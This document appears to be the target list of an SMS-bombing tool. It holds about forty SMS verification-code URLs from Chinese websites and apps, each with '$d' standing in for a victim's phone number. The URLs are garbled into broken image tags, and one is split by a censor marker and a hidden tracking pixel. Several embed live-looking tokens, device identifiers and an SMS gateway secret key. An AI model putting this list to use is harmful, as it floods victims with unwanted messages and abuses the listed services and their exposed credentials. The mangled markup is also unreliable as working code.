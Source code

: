 <img src='https://class.hujiang.com/classtopic/handler/phonecaptcha?areaID=87051&phoneNumber=$d' alt=''/>&IsAutoReg=true&TopicID=94149&IsPreview=false&__r=1542430774915
<img src='http://api.huatu.com/lumenapi/v4/common/message/send_by_java?callback=callbackSendCode&mobile=$d' alt=''/>&_=1547130695671
<img src='http://api.mianmianyue.com/basis/sendCheckCode?mobile=$d' alt=''/>&checkSign=Gec1LPgwdA4OOyqQLAS5UkZnmck2eRyJxJP6rvTU7K8%3D
<img src='http://api.qingmang.me/v1/account.sendVerification?code=1566478386.8872059778&phone=+86$d' alt=''/>&token=YzllOTI2NGEtYzRkYi0xMWU5LTgxY2ItMDAxNjNlMDM2OTg5&platform=life_ios&udid=966d9749eb41b1f81489cabc0bc05c35a1f97032&v=2.6.12&vc=6
<img src='http://api.v2.msparis.com/common/mobile?channel=App Store-vest&clientId=msparis-ios-4.2.4-vest&mobile=$d' alt=''/>&platform=ios-vest&rent_mode=2
<img src='http://api.wangxiao.cn/app/user.ashx?mobile=$d' alt=''/>&t=mobilelogincode
<img src='http://api.xingchentd.com/logic-user/user:users/mobile/?mobile=$d' alt=''/>&projection=withRoles
<img src='http://api.xtgyl.cn/index.php/api_v1/api.app.login/sendCaptcha?mobile=$d' alt=''/>
<img src='http://api.yuyin-tv.com/v1/account/verifycode/register?phone=$d' alt=''/>
<img src='http://app.jiayouxueba.cn/api/v3/sms/getcode?mobile=$d' alt=''/>
<img src='http://app.quanlaoda.com/app.php?&m=code&a=send_login_code&phone=$d' alt=''/>
<img src='http://app.zangcun.com/registerCode?mobile=$d' alt=''/>
<img src='http://appsever.caissa.com.cn/api/token/user/verifyAndgetCaptcha?data={' phone':'$d' alt=''/>','type':'3','userid':''}&head='{'account':'android01','channel':'C0001','channelSecond':'CS0001','pa'
<img src='http://bizapi.pezy.cn/qknode/sms/reqSmsCode?df=android&publishid=1003&deviceId=8812baafc8de4fe4&vt=5&screen=720x1280&deviceid=&os=android&proid=qknode&av=MMB29M&appVersion=1.6.1&imei=&ov=6.0.1&osVersion=6.0.1&deviceVersion=Redmi 4A&osLevel=23&phone=$d' alt=''/>&token=
<img src='http://ccyagu.gswanzhong.com/Apicloud/User/sendCaptcha?Mobile=$d' alt=''/>
<img src='http://dapi.mting.info/yyting/usercenter/getVerifyCode.action?phoneNum=$d' alt=''/>&type=0&token=&imei=&nwt=1&q=27&sc=
<img src='http://gw.dianzhenkeji.com/userc/sms/$d' alt=''/>/2?tenantId=dxtv
<img src='http://hbrbapi.hubeidaily.net/amc/client/getAuthCode?mobilephone=$d' alt=''/>&nodeCode=ecdc5307-888e-4322-8817-f04bd81a7e82
<img src='http://id.ifeng.com/api/simplesendmsg?mobile=$d' alt=''/>&comefrom=7&auth=&msgtype=0
<img src='http://m.aihuaju.com/wap/index.php?act=security&op=send_reg_mobile&mobile=$d' alt=''/>
<img src='http://m.api.cetv.cn/v2/member?app_version=2.1.0&sign=f631db0bcb5fabc1b76679d9480e4f73&device_id=74:4A:A4:A6:B0:63&time=1561078945566&mobile=$d' alt=''/>&system_name=android&ip=192.168.43.217&siteid=10001&clientid=1&modules=needcaptcha:1&type=android
<img src='http://m.renwo.com/Ajax/json.ashx?at=sendregsmsvcode&m=1&mobile=$d' alt=''/>&_=1551173567899
<img src='http://mobile.health.pingan.com/ehis-hl/ajax/sendOTP.action?smscc=ehiswxonly&phone=$d' alt=''/>
<img src='http://my.baihe.com/Getinterregist/captchaAndRegCheck?account=$d' alt=''/>&type=1
<img src='http://photograph.yuanlikj.cn/send/Send?appName=截图秀-对话生成器&TELMobile=$d' alt=''/>
<img src='http://shxd.jienihua100.com/api/user/getcode?mobile=$d' alt=''/>&regcode=AC04B8AE-5A73-41D1-8694-3EFD04FEB059
<img src='http://slb-sport.vesal.cn/vesal-sport-prod/v1/app/member/getCode?tellAndEmail=$d' alt=''/>
<img src='http://sms.bechtech.cn/Api/send/data/json?accesskey=1730&secretkey=3f198068c6b5c1036f9b38ae0690cc244695a247&mobile=$d' alt=''/>&content=您的手机验证码为：3973+，该验证码10%
<img src='http://srmemberapp.srgow.com/sys/captcha/$d' alt=''/>
<img src='http://tel.kuaishang.cn/ajax.php?act=sendmsg&author=齐晨&fromurls=
<img src='http://www.mianfeidianhua.net/hsnzy.html&content=想咨询。&did=382&uid=2010131726&phone=$d' alt=''/>&_=1551173567919
<img src='http://ttq.api.yolanda.hk/api/v5/users/identifying_code.json?address=&app_id=TTQ&app_revision=2.2.2&cellphone_type=iPhone 6s-12.4&login=$d' alt=''/>&mob_type=1&platform=iphone&send_type=1&systemLaunguage=zh-Hans-CN
<img src='http://user.daojia.com/user/getSmscode?mobile=$d' alt=''/>
<img src='http://www.gangaimall.com/mbb-web/api/account/code?mobile=$d' alt=''/>&type=0
<img src='http://www.hx2car.com/mobile/loginCode.json?code=d889c6084be2613b8ed976d2336bc53a&devicetoken=0FAEEA4E-B279-4409-93A6-05B4EDE49DE8&phoNum=$d' alt=''/>
<img src='http://www.milvwang.com/user/isRegister/?mobile_phone=$d' alt=''/>
<img src='http://www.txooo.com/Txooo/Main/Busine**屏蔽敏感词**<img src=&quot;//ia.51.la/go1?id=19095990&pvFlag=1&quot; border=&quot;0&quot; style=&quot;display:none;&quot;/>equirement/Ajax/Busine**屏蔽敏感词**<img src=&quot;//ia.51.la/go1?id=19095990&pvFlag=1&quot; border=&quot;0&quot; style=&quot;display:none;&quot;/>equirementAjax.ajax/SendMobileCode?mobile=$d' alt=''/>
<img src='http://zaiwai.8848.com/commonService/findMessageToken?phone=$d' alt=''/>
<img src='https://pass.hujiang.com/Handler/UCenter.json?action=SendMsg&business_domain=yyy_cichang&captchaVersion=2&hpuid=753-hG5lbwKtYM04Ldr-19&imgcode=&isapp=true&mobile=+86-$d' alt=''/>&msgtype=1&sendtype=mobilemsgpwd&token=4eee9083e9d146799ef5828ac583d8b3&user_domain=hj